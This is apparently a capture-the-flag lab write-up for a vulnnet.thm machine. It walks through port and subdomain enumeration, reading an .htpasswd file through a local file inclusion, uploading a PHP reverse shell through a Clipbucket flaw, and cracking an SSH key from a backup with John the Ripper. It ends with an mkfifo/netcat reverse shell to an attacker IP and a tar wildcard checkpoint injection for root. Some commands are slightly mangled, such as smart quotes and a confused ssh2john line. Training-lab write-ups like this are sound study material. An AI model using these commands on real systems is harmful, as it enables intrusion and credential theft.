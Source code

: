 
##### Use RUSTSCAN for find open ports:
`   rustscan -a TargetIP   `

##### Then use NMAP for service and version scan:
 `   sudo nmap -A -T4 -oX nmap_scan.xml {target_ip}    `


##### Find directories using gobuster:
`   gobuster dir -u http://vulnnet.thm:80 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 25 -q -x php,aspx,txt,asp   `

##### Find directories using feroxbuster:
`   feroxbuster -u http://vulnnet.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt    `


##### Find subdomains using gobuster:  
`   gobuster vhost -u vulnnet.thm -w /usr/share/dnsrecon/subdomains-top1mil-20000.txt -o gobuster_vsubdomains.txt -t 25 -q   `


##### Crawl Domain, subdomain for hidden links and parameters:
`   gospider -s http://vulnnet.thm -c 10 -d 0 -w -t 10 --robots -a -r -v    `



##### Find header byte size for FUZZ:
`   curl -s -H "HOST: asdasdasdasd.vulnnet.thm" http://vulnnet.thm | wc -c   `


##### Find subdomain using ffuf:
`   ffuf -u 'http://FUZZ.vulnnet.thm' -mc all -ic -t 100 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 5829   `



Result:
```
open this link and check the response in the browser or burp:
http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd
```




# Exploit vulnerability:

search the version for exploit:
`   searchsploit Clipbucket v4.0   `

Download exploit from searchsploit:
`   searchsploit -m php/webapps/44250.txt`


Copy exploit from your /usr/share/webshells/ on your system or use pentest-monkey:
`   cp /usr/share/webshells/php/php-reverse-shell.php shell.php   `


And upload that shell.php payload in the Target website:
```
curl -u developers:9972761drmfsls -F "file=@shell.php" -F "plupload=1" -F "name=anyname.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```


Now access the reverse shell:
```
Type this command in attacker system:-
	nc -lvnp 1234


Then go to the browser and try to access that uploded payload:-
	http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/
```





# Privilege Escalation


`   python3 -c ‘import pty; pty.spawn(“/bin/bash”)’   `


##### set the terminal type to xterm for a smoother experience:
`   export TERM=xterm   `


`  cd /var/backups  && ls -la   `


Copy file at TMP directory:
`  cp ssh-backup.tar.gz /tmp && cd /tmp  `

Now unzip this TAR file:
`   tar -xzvf ssh-backup.tar.gz   `

view inside the file and copy that id_rsa file content:
`  cat ssh-backup  `


To make the SSH key suitable for John the Ripper to crack, we’ll employ the ssh2john.py tool:
`  ssh2john id_rsa > id_rsa1 — wordlist=/usr/share/wordlists/rockyou.txt  `


Now crack the id_rsa1:
`  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa1  `



Now login into SSH:
`   sudo ssh -i id_rsa1 server-management@vulnnet.thm  `



# Privilege Escalation to Root


Search for any schedule job:
`  cat /etc/crontab   `


First change the Directory:
`  cd /home/server-management/Documents   `

```
cat > shell.sh  

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.17.22.228 4445 > /tmp/f



Start netcat in the attacker system at first:
nc -lvnp 4445


Now, after saving the shell script, run these commands:
echo > '--checkpoint=1'  
echo > '--checkpoint-action=exec=sh shell.sh'
```
